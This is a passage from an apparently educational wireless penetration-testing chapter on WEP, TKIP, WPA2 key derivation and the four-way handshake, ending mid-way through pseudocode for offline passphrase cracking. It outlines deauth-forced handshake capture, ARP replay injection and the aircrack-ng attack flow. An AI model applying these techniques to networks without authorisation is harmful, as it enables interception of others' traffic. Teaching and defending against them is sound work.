This is Chapter 1 of the Wireless notebook — the point where the series leaves the wire behind entirely and commits to attacking radio. The Networking track closed with an 802.11 fundamentals chapter that taught you frames, channels, monitor mode and lawful capture; that was observation. This notebook is about *offense against the air*, and every attack in it — handshake cracking, PMKID, evil twins, KRACK, deauth floods, enterprise EAP relay — depends on the material below. If you cannot explain what a PTK is and why a captured four-way handshake can be cracked offline while the attacker never touches the access point, none of the later chapters will make sense. So we build the security model of Wi-Fi from the ground up: how each generation of protection worked, exactly how each one broke, and what an attacker actually pulls out of the air.

Wireless security is unusual among the topics in this series because its history is a near-perfect case study in cryptographic engineering failure and recovery. WEP is the canonical example of "rolling your own crypto badly." WPA was a firmware-upgradable emergency patch. WPA2 got the primitives right but left a captured handshake open to offline guessing. WPA3 finally closed the offline-guessing hole with a password-authenticated key exchange — and then researchers immediately found side channels and downgrade paths. You are going to understand all four, in order, because the attacks you will run in later chapters are defined by which generation the target uses.

Everything here is for **authorised testing only** — networks you own, lab gear you built, or engagements with written scope. Capturing and cracking handshakes on networks you are not permitted to test is illegal in most jurisdictions (in the US, the Computer Fraud and Abuse Act; in the UK, the Computer Misuse Act; elsewhere, local equivalents). Build the home lab described at the end and practise there.

---

## Part 1: Why Radio Changes the Threat Model

On a switched Ethernet LAN, an attacker needs a physical foothold — a port, a tap, a compromised host — before they can see traffic. The cable is a private, point-to-point medium; frames only reach ports the switch forwards them to. Wireless discards that assumption completely. **802.11 is a shared broadcast medium**: every frame an access point (AP) or client transmits radiates in all directions as radio energy, and any adapter within range that is tuned to the right channel receives a copy. There is no cable to tap because there is no cable.

That single fact reshapes the entire security model:

- **Passive interception is free and invisible.** An attacker in a car outside a building can capture every frame on a channel without transmitting anything, without associating to the network, and without leaving any trace on the AP. There is no log entry for "someone listened."
- **The attacker does not need to be *on* the network to attack its authentication.** As you will see, the WPA2 four-way handshake is exchanged *in the clear* (the key material is encrypted, but the handshake frames themselves are visible). Capturing that exchange is enough to begin an offline password-guessing attack from anywhere, forever, without ever touching the AP again.
- **Identity is asserted by radio, not by wire.** A MAC address, an SSID, a BSSID — all are just fields in a frame that any radio can forge. This is why evil-twin and rogue-AP attacks work: nothing physically binds "this SSID" to "this hardware."
- **Range is fuzzy and adversarially extensible.** The "30 metres" you get from a laptop is not the attacker's range. A directional Yagi or parabolic antenna and a high-gain adapter push practical capture and injection range into hundreds of metres or more. Your Wi-Fi's blast radius is much larger than your building.

**Security relevance:** because capture is passive and offline cracking is possible, the *strength of the passphrase* becomes the entire security boundary for a home/personal (PSK) network. There is no rate-limiting, no lockout, no "three tries and you're blocked" — an attacker who captures one handshake can try billions of guesses per second on a GPU rig, in their own time, offline. This is the core reason the whole Wireless notebook exists and the reason WPA3 was designed the way it was.

Let's frame the generational story before diving into each one.



Each row above is a response to the failure of the row above it. Keep that mental model: **WEP failed at the cipher and integrity level; WPA patched it in firmware; WPA2 fixed the cipher but not the offline-guessing exposure; WPA3 fixed the exchange itself.**

---

## Part 2: 802.11 Building Blocks You Must Know First

Before we can talk about *security*, you need a precise vocabulary for the moving parts, because the attacks target specific frames and specific keys. Skim this even if you read the Networking wireless chapter — the security material below refers to these constantly.

### Stations, APs, BSS and the identifiers

- **STA (station):** any 802.11 device — a laptop, phone, or the attacker's adapter.
- **AP (access point):** the STA that provides access to the distribution system (the wired network / internet).
- **BSS (Basic Service Set):** one AP and its associated clients. Identified by the **BSSID**, which is almost always the AP radio's MAC address.
- **ESS (Extended Service Set):** multiple APs sharing one **SSID** (network name) so clients roam between them.
- **SSID vs BSSID:** the SSID is the human-readable name ("CorpWiFi"); the BSSID is the 6-byte MAC of a specific AP radio. Many BSSIDs can share one SSID.

### The three 802.11 frame types

Every 802.11 frame is one of three types, and Wi-Fi attacks live and die on the distinction:

| Frame type | Purpose | Security-relevant examples | Encrypted? |
|---|---|---|---|
| **Management** | Build and tear down associations | Beacon, Probe Request/Response, Authentication, Association, **Deauthentication**, Disassociation | No (until 802.11w/PMF) |
| **Control** | Coordinate medium access | RTS, CTS, ACK, Block-ACK | No |
| **Data** | Carry actual payloads | LLC/IP traffic, EAPOL (handshake) frames | Data payload encrypted under WPA/WPA2/WPA3; EAPOL logic visible |

The critical takeaway: **management and control frames are unauthenticated and unencrypted on WPA2 networks.** That is why a **deauthentication attack** works — an attacker forges a management frame claiming to be the AP telling a client to disconnect, the client believes it, drops off, and reconnects. That reconnection is exactly when the four-way handshake is re-exchanged, which is how attackers *force* a handshake to capture on demand. 802.11w Protected Management Frames (PMF) exists specifically to authenticate these frames, and WPA3 makes PMF mandatory.

### Monitor mode and channels — the attacker's prerequisites

To capture anything an adapter must be in **monitor mode**: a radio mode where the card hands the OS every 802.11 frame it hears on the tuned channel, headers and all, rather than only decoded data frames for the network it's joined to. Ordinary "managed" mode cards only surface traffic for their own association. Monitor mode is why penetration testers buy specific USB adapters (Atheros AR9271, Realtek RTL8812AU, MediaTek MT7612U) whose Linux drivers support monitor mode and packet injection — most built-in laptop cards do not inject reliably.

An adapter can only listen to **one channel at a time**. 2.4 GHz has channels 1–14 (only 1, 6, 11 are non-overlapping in most regions); 5 GHz has dozens; 6 GHz (Wi-Fi 6E) adds more. Tools like airodump-ng **channel-hop** — rapidly cycling channels to survey everything — but to *capture a specific handshake* you must lock to the target's channel, because hopping means you'll miss frames while parked elsewhere.



**Red team usage:** the survey step (channel hopping) builds your target list — every SSID, BSSID, channel, encryption type and connected client in range. The lock step is where an actual attack begins. **Blue team usage:** the same monitor-mode capability underpins a Wireless IDS (WIDS) that watches for deauth floods, rogue BSSIDs and spoofed beacons.

### Reading a beacon: the RSN Information Element

The reason airodump can tell you "WPA2/CCMP/PSK" without connecting is that every AP shouts its security capabilities ~10 times a second in **beacon frames**, inside the **RSN Information Element (RSN IE)** — element ID 48. Learning to read the RSN IE by hand is what lets you distinguish WPA2 from WPA3-transition from PMF-required at a glance, and it's the exact field a downgrade attack manipulates.

The RSN IE encodes, as a list of 4-byte **cipher suite selectors** (OUI + type):

| Sub-field | Tells you | Attack-relevant values |
|---|---|---|
| **Group Cipher Suite** | Cipher for broadcast/GTK | `00-0F-AC-04` = CCMP, `00-0F-AC-02` = TKIP (legacy!) |
| **Pairwise Cipher Suite(s)** | Cipher(s) for unicast | CCMP only = good; CCMP+TKIP = mixed/downgradable |
| **AKM Suite(s)** (Auth & Key Mgmt) | *How auth happens* | `...-02` = PSK, `...-08` = **SAE (WPA3)**, `...-01` = 802.1X/EAP, `...-06` = PSK-SHA256 |
| **RSN Capabilities** | Feature bits | **MFPC** (PMF Capable) and **MFPR** (PMF Required) bits |

Two AKM suites present (`SAE` **and** `PSK`) is the fingerprint of **WPA3 transition mode** — the exact configuration Part 10's downgrade attack targets. The **MFPR bit** tells you whether deauth attacks will work: if PMF is *required*, forged deauths are ignored. You can read all of this in Wireshark:

```bash
# Dissect a beacon's RSN IE from a capture
tshark -r survey.cap -Y "wlan.fc.type_subtype==0x08" -V \
  -O wlan.rsn 2>/dev/null | grep -A2 -E "AKM|Cipher|Management Frame"
# Look for:  AKM Suite: 00:0f:ac:08 (SAE)  <- WPA3
#            AKM Suite: 00:0f:ac:02 (PSK)  <- also PSK = transition mode
#            RSN Capabilities: MFP Required: True
```

**Red team usage:** parse the AKM list before choosing an attack — it tells you PSK-crack vs EAP-relay vs "WPA3, downgrade or pivot." **Blue team usage:** audit your own beacons; if you intended WPA3-only but see a PSK AKM suite advertised, you're accidentally in transition mode and downgradable.

---

## Part 3: WEP — How To Break Encryption You Designed Yourself

**Wired Equivalent Privacy (WEP)**, shipped in the original 1997 802.11 standard, is the textbook example of amateur cryptography failing in the field. You will still meet it — legacy industrial gear, old IP cameras, forgotten APs — and every concept it gets wrong teaches you something WPA2 gets right. Understand *why* WEP broke and the rest of the chapter clicks into place.

### WEP's construction

WEP encrypts each frame with the **RC4** stream cipher. RC4 takes a key and produces a pseudo-random keystream; you XOR the keystream with the plaintext to encrypt. The WEP "key" fed to RC4 is:

```
RC4 key = IV (24 bits, sent in cleartext) || WEP secret key (40 or 104 bits)
```

So WEP-40 ("64-bit WEP") uses a 24-bit IV + 40-bit secret; WEP-104 ("128-bit WEP") uses 24-bit IV + 104-bit secret. Integrity is a **CRC-32 checksum** (called the ICV) appended to the plaintext before encryption.



### Every design decision is wrong

- **The IV is only 24 bits.** That's 16.7 million possible IVs. On a busy network transmitting thousands of frames a second, IVs *repeat* within hours (the birthday paradox makes collisions likely far sooner). Two frames encrypted with the same IV+key use the *same keystream*; XOR the two ciphertexts and the keystream cancels, leaking `P1 XOR P2`. This is the classic **two-time pad** failure.
- **The IV is sent in the clear**, so the attacker always knows which frames share an IV.
- **RC4 has weak keys.** Fluhrer, Mantin and Shamir (2001) showed that for certain IVs the first bytes of RC4 output leak information about the key — the **FMS attack**. Collect enough frames with "weak" IVs and you recover the secret key byte by byte, no brute force.
- **CRC-32 is linear, not cryptographic.** An attacker can flip bits in the ciphertext and compute the corresponding CRC adjustment, forging valid frames without the key. Integrity is effectively absent.
- **No replay protection and a broken auth handshake.** WEP "Shared Key Authentication" actually makes things *worse*: the AP sends a cleartext challenge, the client returns it encrypted, so an eavesdropper captures both and recovers a keystream chunk for free.

### The attacks, in order of history

1. **FMS (2001):** statistical key recovery from weak-IV frames. Needed millions of frames — slow.
2. **KoreK (2004):** more statistical correlations, fewer frames needed.
3. **PTW — Pyshkin, Tews, Weinmann (2007):** the modern attack. Recovers a 104-bit WEP key from as few as **40,000–85,000 captured data frames**, often in **under a minute** once enough IVs are gathered. To speed frame collection, attackers use **ARP replay injection**: capture one ARP request, replay it thousands of times, and the AP generates a flood of fresh IVs for you.

**In practice, WEP is broken in minutes regardless of key length**, because the weakness is in the IV and RC4 usage, not the key size. The classic aircrack-ng flow (covered fully in the next chapter's tooling) is: `airodump-ng` to capture IVs, `aireplay-ng` to inject ARP replays for IV volume, `aircrack-ng` to run PTW. Key length is irrelevant to survivability.

**Takeaway for the rest of the chapter:** WEP failed on *four* independent axes — cipher misuse (keystream reuse), key scheduling (weak IVs), integrity (linear CRC), and authentication (challenge leak). WPA had to patch all four on hardware that could not do AES.

---

## Part 4: WPA & TKIP — The Firmware-Upgradable Stopgap

By 2003 WEP was indefensible, but hundreds of millions of deployed cards had RC4 baked into hardware and could not run AES. The Wi-Fi Alliance shipped **WPA (Wi-Fi Protected Access)** as an interim profile of the draft 802.11i standard — engineered specifically so it could be delivered as a *firmware update* to existing WEP hardware. Its data-confidentiality protocol is **TKIP (Temporal Key Integrity Protocol)**.

TKIP is best understood as "WEP with every one of WEP's specific holes plugged, while still using RC4":

| WEP weakness | TKIP fix |
|---|---|
| 24-bit IV → keystream reuse | **48-bit IV/TSC** (TKIP Sequence Counter), used as a replay counter; frames out of order are dropped |
| Same key on every frame | **Per-packet key mixing** — a key-mixing function combines the base key, TA (transmitter address) and TSC into a unique RC4 key per frame, so weak-IV/FMS attacks don't apply |
| Linear CRC-32 forgeable | **Michael MIC** — a real (if weak) message integrity code keyed to detect forgery, with **countermeasures**: two MIC failures in 60s → the AP shuts down and rekeys |
| No rekeying | Dynamic rekeying of the temporal keys |

TKIP was a genuine improvement and bought the industry time, but it was never meant to last. Its weaknesses:

- **Michael is cryptographically weak** — only ~20 bits of effective security — which is why the countermeasures (network shutdown on repeated MIC failure) exist as a crutch. Those countermeasures are themselves a **denial-of-service lever**: an attacker who can trigger two MIC failures can knock the network offline for a minute.
- **Beck–Tews attack (2008)** and later **Ohigashi–Morii** recover small amounts of plaintext and inject a few forged short packets (e.g., ARP) against TKIP under specific conditions (QoS enabled). Not a full key break, but proof TKIP's integrity was crumbling.
- TKIP still rides on **RC4**, a cipher now deprecated everywhere.

**Modern status:** TKIP is deprecated. Wi-Fi 6 (802.11ax) and later **forbid TKIP**; enabling WPA/TKIP or "WPA2 + WPA mixed with TKIP allowed" caps a network at legacy rates and reintroduces weaknesses. **Blue team relevance:** finding TKIP enabled on an assessment is a straightforward finding — recommend CCMP-only (AES) and disable TKIP fallback entirely. If you see an SSID advertising TKIP in your airodump survey (the `ENC`/`CIPHER` columns), flag it.

---

## Part 5: WPA2 & CCMP — Getting the Cipher Right

**WPA2**, ratified as the full **IEEE 802.11i** amendment in 2004 and mandatory for Wi-Fi certification since 2006, replaced RC4/TKIP with **CCMP (Counter Mode with CBC-MAC Protocol)**, built on **AES-128**. This is the network you'll meet most often on real engagements even now.

### What CCMP does right

CCMP uses AES in **CCM mode**, which combines:

- **AES-CTR (Counter mode)** for confidentiality — AES generates a keystream from an incrementing counter (nonce), XORed with plaintext. A block cipher used correctly, no RC4 weak keys.
- **CBC-MAC** for integrity and authenticity — a cryptographic MAC computed over the frame, so forgery and bit-flipping (WEP's fatal integrity flaw) are infeasible.
- A **48-bit Packet Number (PN)** that acts as a nonce and replay counter — replayed frames with a stale PN are dropped.

CCMP is an **AEAD** (Authenticated Encryption with Associated Data) construction: it protects confidentiality *and* integrity in one operation, over both the payload and selected header fields. This is genuinely sound modern cryptography — CCMP itself has not been broken. **When WPA2-CCMP networks fall, it is essentially never because AES-CCM failed; it is because the passphrase was guessable or a protocol-level flaw (KRACK) was exploited.**

### WPA2-Personal vs WPA2-Enterprise

This distinction determines *everything* about how you attack a network, so internalise it:

| | **WPA2-Personal (PSK)** | **WPA2-Enterprise (802.1X/EAP)** |
|---|---|---|
| Authentication | A single shared **passphrase** (8–63 chars) known to everyone | Per-user credentials via a **RADIUS** server and EAP (PEAP, EAP-TLS, EAP-TTLS) |
| Key origin | **PMK** = PBKDF2(passphrase, SSID) — same for all clients | PMK derived per session from the EAP exchange (e.g., TLS master secret) |
| Primary attack | **Capture the 4-way handshake, crack the passphrase offline** | Rogue AP / **evil twin + credential relay** (steal/relay RADIUS creds), EAP downgrade — no single passphrase to crack |
| Where used | Homes, small offices, guest nets | Corporate, university, government |

Both use the same **four-way handshake** to derive session keys once the PMK exists — the difference is *where the PMK comes from*. For Personal, PMK comes straight from the passphrase, which is why guessing the passphrase breaks it. For Enterprise, PMK is a per-session secret from an authenticated EAP exchange, so there is nothing to offline-guess — you attack the EAP layer instead (a later chapter).



### Where the Enterprise PMK actually comes from

Because the rest of this chapter focuses on Personal (the crackable case), it's worth pinning down the Enterprise flow so you know *why* there's nothing to offline-crack — it becomes the pivot for a later chapter. In WPA2/WPA3-Enterprise the client (supplicant) authenticates to a back-end **RADIUS** server through the AP (authenticator) using **802.1X** carrying **EAP**:



The **PMK is derived from the EAP method's Master Session Key (MSK)** — a fresh secret from an authenticated (often certificate-based) exchange, never a shared password. So the Part 7/8 offline attacks simply don't apply. Instead the Enterprise attack surface is the **EAP method and client trust configuration**: a rogue AP + fake RADIUS (`hostapd-wpe`, `eaptls`) that captures/relays credentials, exploited when clients fail to validate the server certificate (common with PEAP/EAP-TTLS misconfig). That's a dedicated later chapter; the point here is that "Enterprise" moves the fight from *passphrase cracking* to *EAP relay and certificate trust*.

The next part dissects the Personal handshake, because it is the single most important object in the entire Wireless notebook.

---

## Part 6: The Key Hierarchy — PMK, PTK, GTK, and Friends

Before the four-way handshake makes sense, you need the **key hierarchy**. WPA2/WPA3 never encrypt data directly with your passphrase. Instead there's a derivation chain from a long-lived master key down to short-lived per-session keys. Attackers target specific links in this chain.

### The Pairwise Master Key (PMK)

The **PMK** is the root of the pairwise (per-client) key tree. Its origin depends on the mode:

- **WPA2-Personal:** the PMK *is* the passphrase run through PBKDF2:

  ```
  PMK = PBKDF2-HMAC-SHA1(passphrase, SSID, iterations=4096, dkLen=256 bits)
  ```

  Two things matter enormously here. First, **the SSID is the salt.** That's why cracking rigs precompute rainbow tables *per SSID* — a table for "linksys" is useless against "NETGEAR". Common SSIDs (default names) have precomputed tables; unique SSIDs force per-target computation. Second, **4096 iterations of PBKDF2 is deliberately slow**, which throttles guessing to (very roughly) hundreds of thousands to a few million guesses/sec on a strong GPU — slow enough that a genuinely random 12+ character passphrase is safe, fast enough that "password123" dies instantly.

- **WPA2-Enterprise:** the PMK comes from the EAP exchange (e.g., derived from the TLS master secret), unique per session, never derivable from a shared secret.

**A concrete PMK derivation.** To make PBKDF2 tangible, here's the exact computation for a lab network — you can reproduce it in Python and it will match what aircrack-ng computes internally:

```python
import hashlib, binascii
passphrase = b"SummerBreeze2026!"
ssid       = b"LAB-NET"                      # SSID is the salt
pmk = hashlib.pbkdf2_hmac("sha1", passphrase, ssid, 4096, 32)  # 4096 iters, 32 bytes
print(binascii.hexlify(pmk).decode())
# -> a deterministic 64-hex-char PMK, e.g. 8f2c...e91a
```

Change **one character** of the passphrase and the PMK is completely different (avalanche). Change the **SSID** and the same passphrase yields a different PMK — which is exactly why `LAB-NET` and `linksys` need separate cracking effort even with identical passwords, and why default/common SSIDs are weaker (precomputed tables exist). The `4096` iteration count is the deliberate speed brake: an attacker's GPU must run those 4096 HMAC-SHA1 rounds *per guess*, which is what caps WPA2 cracking at (order-of) millions of guesses/sec rather than billions.

### The Pairwise Transient Key (PTK)

The PMK is long-lived; you don't encrypt frames with it directly. The **PTK** is the actual working key set, derived fresh for each association during the handshake:

```
PTK = PRF-512( PMK,
               "Pairwise key expansion",
               min(AA,SPA) || max(AA,SPA) || min(ANonce,SNonce) || max(ANonce,SNonce) )
```

Where **AA** = Authenticator (AP) MAC, **SPA** = Supplicant (client) MAC, **ANonce** = AP's random nonce, **SNonce** = client's random nonce. The PTK is then split into sub-keys:

| Sub-key | Length | Purpose |
|---|---|---|
| **KCK** (Key Confirmation Key) | 128 bits | Computes the **MIC** that authenticates handshake messages |
| **KEK** (Key Encryption Key) | 128 bits | Encrypts the GTK when it's delivered to the client |
| **TK** (Temporal Key) | 128 bits | The actual key AES-CCMP uses to encrypt/decrypt your data frames |

The crucial attacker insight: **the PTK depends only on the PMK, the two MACs, and the two nonces — and every input except the PMK is transmitted in the clear during the handshake.** So if an attacker captures the handshake (getting both MACs, both nonces, and the MIC), they can, for any *guessed* passphrase, compute a candidate PMK → candidate PTK → candidate MIC, and check it against the captured MIC. A match means the guess is correct. That is the entire offline attack, and Part 7 shows exactly which frames leak which value.

### The Group Temporal Key (GTK)

The **GTK** encrypts **broadcast/multicast** traffic (one key shared by all clients, since a broadcast goes to everyone). It's delivered to each client encrypted under the KEK during the handshake (message 3) and rotated when clients leave. The **GTK's existence is why deauth-based attacks and some KRACK variants matter** — and why an insider who knows the PSK can decrypt other clients' broadcast traffic and, with the handshake, their unicast traffic too. **Security relevance:** on a PSK network *everyone with the password can potentially decrypt everyone else's traffic* if they capture the relevant handshakes — PSK provides no meaningful isolation between users. This is a real finding to raise for shared-PSK guest networks.



---

## Part 7: The Four-Way Handshake, Message by Message

This is the heart of the chapter. The **four-way handshake** is the EAPOL-Key exchange that lets an AP and client *prove to each other they both know the PMK* and *agree on a fresh PTK/GTK* — without ever sending the PMK or PTK over the air. It runs after (re)association, over EAPOL (Extensible Authentication Protocol over LAN, EtherType 0x888E) data frames. Understand each message and you understand exactly what a captured `.cap` file contains.

Assume both sides already share the PMK (from the passphrase, on Personal).



Walk through it precisely:

- **Message 1 (AP → Client):** the AP sends the **ANonce**, a fresh random number. No MIC yet (the client can't compute one — it doesn't have the PTK until it has ANonce). This frame is unencrypted and unauthenticated. *Attacker gains: ANonce, AP MAC.*
- **Message 2 (Client → AP):** the client generates its own **SNonce**, and now has everything it needs (PMK + ANonce + SNonce + both MACs) to compute the **PTK**. It sends SNonce plus a **MIC** computed with the KCK over the frame. This MIC is the client saying "I derived a PTK from the real PMK — here's proof." *Attacker gains: SNonce, client MAC, and a MIC over known data — this is the crackable material.*
- **Message 3 (AP → Client):** the AP has now also computed the PTK (it has SNonce from message 2), verifies the client's MIC, and sends the **GTK encrypted under the KEK**, plus its own MIC and a flag telling the client to install the keys. *Attacker gains: another MIC and confirmation the PMK matched.*
- **Message 4 (Client → AP):** a final acknowledged, MIC-protected confirmation that keys are installed. Data traffic now flows encrypted under the TK with CCMP.

### Why this is offline-crackable (the whole point)

Look at what crosses the air in the clear: **ANonce, SNonce, AP MAC, client MAC, and the MICs.** The *only* secret input to the PTK (and therefore to the MIC) is the **PMK**, which on Personal comes solely from the passphrase (+ SSID salt). So the attack is:

```python
for candidate_passphrase in wordlist:
    PMK  = pbkdf2(candidate_passphrase, SSID, 4096, 256)
    PTK  = prf512(PMK, "Pairwise key expansion", MACs + nonces)   # all known from capture
    KCK  = PTK[0:16]
    MIC2 = hmac(KCK, eapol_frame_bytes)                           # frame known from capture
